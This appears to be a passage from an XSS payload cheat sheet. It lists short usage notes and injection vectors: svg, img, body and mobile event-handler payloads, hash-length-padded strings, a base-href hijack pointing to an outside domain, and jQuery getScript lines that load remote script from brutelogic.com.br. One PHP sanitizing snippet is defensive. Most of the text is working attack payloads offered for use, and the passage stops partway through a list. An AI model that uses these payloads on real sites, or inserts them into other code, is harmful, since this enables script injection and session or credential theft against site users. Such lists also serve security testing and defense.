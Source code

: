 ```
Use when input must have a fixed length like in most common following hashes. 
```
MD5       12345678901<svg/onload=alert(1)>
SHA1      1234567890123456789<svg/onload=alert(1)>
SHA256  1234567890123456789012345678901234567890123<svg/onload=alert(1)>
```


## PHP Sanitizing for XSS
Use to prevent XSS in every context as long as input does not reflect in non-delimited strings, in the middle of backticks or any other eval-like function (all those in JS context). It does not prevent against DOM-based XSS, only source-based XSS cases.
```
$input = preg_replace("/:|\\\/", "", htmlentities($input, ENT_QUOTES))
```


## JavaScript Execution Delay
Use when a javascript library or any other required resource for injection is not fully loaded in the execution of payload. A JQuery-based external call is used as example.
```
onload=function(){$.getScript('//brutelogic.com.br/2.js')}
onload=x=>$.getScript('//brutelogic.com.br/2.js')
```


## Image Vectors - Alternative Event Handlers 
Use to trigger image vectors with event handlers different than onerror.
```
<img 
<image
src=data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs= 
srcset=data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=
onload=alert(1)>
onloadend=alert(1)>
onloadstart=alert(1)>
```


## Shortest XSS
Use when you have a limited slot for injection. Requires a native script (present in source 
code already) called with relative path placed after where injection lands. Attacker server 
must reply with attacking script to the exact request done by native script (same path) or 
within a default 404 page (easier). The shorter domain is, the better.
```<base href=//knoxss.me>```
Mobile-only Event Handlers
Use when targeting mobile applications.
```
<html ontouchstart=alert(1)> 
<html ontouchend=alert(1)> 
<html ontouchmove=alert(1)> 
<body onorientationchange=alert(1)>
```


## Body Tag
A collection of body vectors. Last one works only for Internet Explorer.
```
<body onload=alert(1)>
<body onpageshow=alert(1)>
<body onfocus=alert(1)>
<body onhashchange=alert(1)><meta content=URL;%23 http-equiv=refresh>
<body onscroll=alert(1) style=overflow:auto;height:1000px id=x>#x
<body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><x id=x>#x
<body onresize=alert(1)>press F12!